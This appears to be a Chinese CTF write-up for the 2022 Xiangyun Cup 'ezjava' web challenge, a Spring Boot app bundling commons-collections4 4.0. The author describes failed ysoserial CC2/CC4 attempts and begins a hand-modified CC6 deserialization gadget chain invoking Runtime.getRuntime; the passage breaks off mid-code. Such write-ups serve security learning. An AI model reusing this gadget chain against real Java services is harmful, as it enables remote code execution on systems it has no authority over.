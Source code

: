 ```yaml
---
title: "2022 祥云杯 Web Writeup"
date: 2022-10-31T09:30:29+08:00
lastmod: 2022-10-31T09:30:29+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


看了两天的 `Token is invalid !!`...



## ezjava

springboot 网站

controller

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302033773.png)

util (最后好像没用到)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302034773.png)

lib

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302034341.png)

一眼看到 commons-collection4-4.0, 于是直接用 ysoserial 打

试了下 cc2 cc4 发现一直失败, 报错提示没有 TemplatesImpl 类 (?)

又换成了 cc6, 自己手动改了下 payload (4.0 版本中 LazyMap 的 decorate 方法变成了 lazyMap)

```java
package com.example;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections6Demo {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
```